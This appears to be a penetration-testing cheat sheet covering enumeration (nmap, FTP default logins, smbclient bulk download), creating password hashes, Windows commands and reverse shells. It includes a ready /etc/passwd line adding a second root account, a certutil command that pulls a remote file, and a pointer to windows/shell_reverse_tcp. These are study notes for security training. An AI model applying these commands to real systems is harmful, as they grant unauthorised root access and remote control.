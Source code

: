 1. Enumeration
  nmap port scan
  Common ports
  FTP
    Anonymous Login?
    Common Credentials? admin/admin
    
    
   smbclient get all files:
   recurse (toggles recursive mode)
   prompt (toggles Y/N requests)
   mget *
  
  Creating password hashes for /etc/passwd  or /etc/shadow
  
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
  Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```


## Command Line 
### Linux  

### Windows  
"Grep" function in Windows  
`findstr /I "<string>"` 

Downloading from Windows Command line  
`certutil.exe -urlcache -f http://target/remotefile localfile`

### Notes  

- when generating a shell on windows, use windows/shell_reverse_tcp
